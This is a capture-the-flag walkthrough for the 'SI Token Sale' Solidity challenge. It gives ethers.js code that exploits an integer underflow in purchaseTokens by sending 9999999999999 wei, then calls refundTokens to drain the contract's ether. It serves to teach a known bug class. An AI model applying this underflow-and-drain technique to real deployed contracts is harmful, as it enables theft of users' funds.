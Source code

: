 # SI Token Sale

# Problem Statement
```
Game Balance: 0.3 ETH

It's finally happened!
Security Innovation is doing an ICO!
We are releasing 1000 SI Tokens (SIT) at the low low cost of 1 SIT == 1 ETH (minus a small developer fee).
We have yet to figure out what these tokens will be used for, but we are leaning towards something IOT / Machine Learning / Big Data / Cloud.
Secure your SIT today before they're gone!

----------------
|0|Purchase SIT|
----------------
Plus buyer protections!
We understand that you may be unhappy with your purchase of SIT.
For that reason, during the duration of the crowdsale you will be able to return your SIT and receive 50% of your ETH back.

--------------
|0|Refund SIT|
--------------
Viewing and Trading your Tokens
SIT is an ERC20 compliant token!
You can view and trade your tokens using MyCrypto by adding a custom token with the following parameters
Contract Address: CONTRACT_ADDRESS
Symbol: SIT
Decimals: 18
```

# Solution
Lets check our balance:
```
const contractAddress = // SITokenSale contract address
const abi = [
  {
    constant: true,
    inputs: [{ name: "_owner", type: "address" }],
    name: "balanceOf",
    outputs: [{ name: "balance", type: "uint256" }],
    payable: false,
    stateMutability: "view",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const myBalance = await contract.balanceOf("YOUR_ADDRESS");
console.log(myBalance);
// returns 0
```
The first part of the vulnerability is located in the `purchaseTokens` function:
```
balances[msg.sender] += _value - feeAmount;
```
This will produce an underflow. The `feeAmount` is `10 szabo`. So all we need to do is to send `1 wei` less than `10 szabo`.
The `szabo` to `wei` conversion in this version (`0.4.24`) of solidity is:
```
1 szabo = 1000000000000 wei
```
Now that we know this, we need to trigger the fallback function call to `purchaseTokens` with `9999999999999 wei`:
```
const contractAddress = // SITokenSale contract address
const txData = {
  to: contractAddress,
  value: "9999999999999",
};
await eoa.sendTransaction(txData);
```
Now check your balance again using the previous call above. You should see:
```
1.157920892373162e+77
```
Great! We've successfully performed an underflow! Now, we just need to run `refundTokens` to drain the remaining ether in the contract:
```
const contractAddress = // SITokenSale contract address
const contractEtherBalance = await provider.getBalance(contractAddress);
console.log(contractEtherBalance);
// returns 300009999999999999
```
Since `refundTokens` divides the ethereum by half we just need to double the amount we send as the `_value`:
```

const contractAddress = // SITokenSale contract address
const abi = [
  {
    constant: false,
    inputs: [{ name: "_value", type: "uint256" }],
    name: "refundTokens",
    outputs: [],
    payable: false,
    stateMutability: "nonpayable",
    type: "function",
  },
];
const contract = new ethers.Contract(contractAddress, abi, eoa);
const tx = await contract.refundTokens("600019999999999998"); // 300009999999999999 * 2
```

We've completed this lesson!

# Key Learnings
- Be aware of underflow and overflow vulnerabilities especially with older Solidity contracts.
